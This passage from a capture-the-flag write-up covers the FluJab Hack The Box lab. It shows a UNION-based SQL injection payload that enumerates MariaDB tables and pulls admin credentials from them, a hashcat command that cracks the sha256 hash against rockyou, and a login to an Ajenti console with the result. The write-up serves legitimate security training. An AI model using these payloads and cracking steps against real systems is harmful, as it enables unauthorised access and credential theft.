 So it's running Maria, we have the exact DB version, and we know the third column is where we need to do our querying, nice. Let's look for tables of interest like so:

```text
nhsnum=' AND '2' = '1' UNION SELECT TABLE_NAME,TABLE_NAME,GROUP_CONCAT(TABLE_NAME),TABLE_NAME,TABLE_NAME FROM information_schema.tables --
```

We begin looking through tables, extract password hashes of the DB users, and we then come across an "admin" table. We can use a similar query as above but query for column names of the admin table instead and our e-mail subject now looks like this:

```text
Subject: Flu Jab Appointment - Ref:id,loginname,namelc,email,created,modified,modifiedby,password, 
passwordchanged,superuser,disabled,privileges,id,loginname,namelc,email,access,created,modified, 
modifiedby,password,passwordchanged,superuser,disabled,privileges
```

We begin extracting values from this table until we get the following information:

```text
loginname - sysadm
namelc - administrator
email - syadmin@flujab.htb
password - a3e30cce47580888f1f185798aca22ff10be617f4a982d67643bb56448508602
access - sysadmin-console-01.flujab.htb
```

We got a login name, a password that appears to be a sha256 hash, and a new URL to access. Our SQL injection paid off. We first crack the sha256 password on a separate PC with a high-end nvidia GPU for incredibly fast cracking speeds:

```text
hashcat -m 1400 mysql_hash rockyou.txt
```

The rockyou list comes through and we get the password, "th3doct0r". After a few tries, I find we can access "sysadmin-console-01.flujab.htb" by going directly to the proxy on port 8080. However, first I had to delete any existing cookies and use firefox as chrome was having issues. This presented an Ajenti login page where I tried the "sysadm" username and "th3doct0r" password we got from the SQL injection attack:

![flujab-5822.png](/assets/images/posts/htb-flujab/flujab-5822.png)
